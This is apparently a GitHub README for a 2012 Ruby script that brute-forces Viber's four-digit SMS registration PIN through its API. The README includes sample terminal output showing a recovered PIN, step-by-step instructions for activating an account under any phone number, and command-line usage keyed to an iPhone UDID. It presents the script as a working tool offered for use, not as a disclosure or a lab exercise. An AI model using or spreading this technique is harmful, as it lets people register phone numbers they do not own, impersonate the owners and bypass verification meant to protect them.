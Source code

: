 viber-pin-bf.rb - Viber PIN bruteforce
=========

This little piece of software will bruteforce the Viber "PIN" key. Viber is a Skype-like  software that claims to have 100 million worldwide users.

Instead of having Viber usernames you use your own mobile phone number as username. When signing up for Viber you confirm that you own the mobile phone number by entering a four digit PIN code that you get by SMS in the registation process.

Four digit, no bruteforce protection, API-axss - A winning concept. Or well, they  have "some kind" of bruteforce "protection". After something like ten tries they increment the PIN-code by 1.

> I've tried to inform them about this. But they ignore my tweets and mails. They ignoring me results in me ignoring them.

    myBox:viber-auth-bf tim$ ./viber-auth-bf.rb -u 128bcab992159630bd9a1c00f1e75b44cef40a90
    [+] Figuring out PIN for 128bcab992159630bd9a1c00f1e75b44cef40a90.
    [+] Success: found PIN: 9477

INSTRUCTIONS - STICK TO THOSE!
-----
    myBox:viber-pin-bf tim$ ./viber-pin-bf.rb 
    Viber PIN Bruteforce 0.1 (c) 2012 Tim Jansson <tim@timtux.net>
 
    --- READ CAREFULLY ---
    1: Install Viber on iPhone.
    2: Register new account, enter any telephone number.
    3: When asked for PIN-code. Go back one step.
    4: To get the PIN to activate the account run this program
       with your iPhone UDID as -u agrument.
    5: Click [Continue] on the phone, [OK] and enter PIN received by ./viber-pin-bf.rb.
    6: Profit?!?!
     
    --- IMPORTANT! ---
    THE PIN CODE SENT WON'T BE THE SAME AS RECEIVED BY VIBER.
    BUT WILL WORK AS LONG AS YOU STICK TO THE INSTRUCTIONS :)
     
    Usage  : ./viber-pin-bf.rb --iphone-udid {UDID}
    Example: ./viber-pin-bf.rb --iphone-udid 128bcab992159630bd9a1c00f1e75b44cef40a90
      --iphone-udid, -u <s>:   Your iPhone UDID 
          --version, -v:   Print version and exit
             --help, -h:   Show this message